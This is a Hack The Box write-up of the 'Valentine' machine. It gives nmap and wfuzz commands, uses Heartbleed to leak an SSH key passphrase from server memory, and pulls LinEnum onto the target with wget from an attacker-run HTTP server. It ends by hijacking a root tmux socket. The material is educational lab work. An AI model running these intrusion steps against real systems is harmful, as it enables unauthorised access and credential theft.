


# Valentine

```
kali@kali:~/htb/Valentine$ sudo nmap -sV -sC 10.129.1.190
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-30 12:13 EST
Nmap scan report for 10.129.1.190
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-01-30T17:14:08+00:00; +16s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 15s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.53 seconds
```


Going to the webpage, it’s only an image. 

I wfuzz the page with `kali@kali:~/htb/Valentine$ sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.1.190/FUZZ`

And I find the dev folder:


### notes.txt:

```
1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

Possibly other text files laying around? And the encoding/decoding might be leveraged. As it seems to upload files to the server somehow.

And a hex encoded rsa key in hype_key:



And then /encode and /decode, which encodes and decodes base64. Maybe a hint for later?

```
kali@kali:~/htb/Valentine$ sudo ssh -i rsa.key 10.129.1.190
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'rsa.key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "rsa.key": bad permissions
root@10.129.1.190's password:
```

So the key doesn’t work straight up. Maybe we need a user? I try the user “hype” since the key was called hype_key. Does not work.

```
kali@kali:~/htb/Valentine$ sudo chmod 400 rsa.key
kali@kali:~/htb/Valentine$ sudo ssh -i rsa.key 10.129.1.190
Enter passphrase for key 'rsa.key':
```

Googled and found out that I might have to change permissions. And I get a passphrase prompt.

Ok, might have to look into the encoding and decoding. Maybe some sort of null-byte attack? 

Null-byte did not work. I’m thinking I might be able to throw a php tag in there, which will be executed once I decode it. This does not work. I try netcat, python, awk. But nothing happens on my listener. 

I decide to try to run some vuln scripts on the ports to see if there’s something I missed:


```
kali@kali:~/htb/Valentine$ sudo nmap -script vuln -p 22,80,443 10.129.1.190
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-30 14:29 EST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.129.1.190
Host is up (0.034s latency).

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
443/tcp open  https
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| ssl-ccs-injection:
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|       http://www.cvedetails.com/cve/2014-0224
|_      http://www.openssl.org/news/secadv_20140605.txt
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  BID:70574  CVE:CVE-2014-3566
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_AES_128_CBC_SHA
|     References:
|       https://www.securityfocus.com/bid/70574
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|_      https://www.openssl.org/~bodo/ssl-poodle.pdf
|_sslv2-drown:

Nmap done: 1 IP address (1 host up) scanned in 58.90 seconds
kali@kali:~/htb/Valentine$
```

The heartbleed exploit is fairly well known. So I know it’s a really high risk vulnerability. So I decide to try it out.

```
kali@kali:~/htb/Valentine$ python heartbleed.py -n 10 -p 443 10.129.1.190
```


In the results I find this string:

```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==Q.j.%B.}^U.o=..:5-...............
Host: 10.129.1.190
User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html) 
```

If we decode this base64 string we get:

```
kali@kali:~/htb/Valentine$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
kali@kali:~/htb/Valentine$
```

So now let’s try that as the rsa passphrase:

```
kali@kali:~/htb/Valentine$ sudo ssh -i rsa.key hype@10.129.1.190
Enter passphrase for key 'rsa.key':
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)

```

And we got a foothold!

I check the version to see if we got any other exploits:

```
hype@Valentine:/$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
hype@Valentine:/$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.04 LTS
Release:        12.04
Codename:       precise
hype@Valentine:/$
```

And I also find Linenum to do some enumeration:

```
kali@kali:~/htb/Valentine$ locate linenum
/opt/linenum
…
…
...
kali@kali:~/htb/Valentine$ cp /opt/linenum/LinEnum.sh .
kali@kali:~/htb/Valentine$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

And I start a webserver to download it.


```
hype@Valentine:~/Downloads$ wget 10.10.14.69:8000/LinEnum.sh
--2021-01-30 12:03:56--  http://10.10.14.69:8000/LinEnum.sh
Connecting to 10.10.14.69:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: `LinEnum.sh'

100%[==============================================================================================================>] 46,631      --.-K/s   in 0.09s   

2021-01-30 12:03:56 (482 KB/s) - `LinEnum.sh' saved [46631/46631]

hype@Valentine:~/Downloads$ chmod 777 LinEnum.sh
hype@Valentine:~/Downloads$ ./LinEnum.sh
```

In the script I notice a couple interesting things, but this is the one that catches my eye the most:

```
[-] Location and contents (if accessible) of .bash_history file(s):
/home/hype/.bash_history

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess
tmux a -t dev_sess
tmux --help
tmux -S /.devs/dev_sess
exit
```

So this user has previously entered .devs and run the tmux terminal with some parameters here. So I recreated what has been done here:

```
hype@Valentine:~/Downloads$ cd /
hype@Valentine:/$ cd .devs
hype@Valentine:/.devs$ ls -la
total 8
drwxr-xr-x  2 root hype 4096 Jan 30 09:10 .
drwxr-xr-x 26 root root 4096 Feb  6  2018 ..
srw-rw----  1 root hype    0 Jan 30 09:10 dev_sess
hype@Valentine:/.devs$
```

We can also assume that since the user tried a couple tmux commands, and even --help, that the first two did not work properly. And when we try tmux -S /.devs/dev_sess, we get root:


```
root@Valentine:/.devs# whoami
root
root@Valentine:/.devs#
```
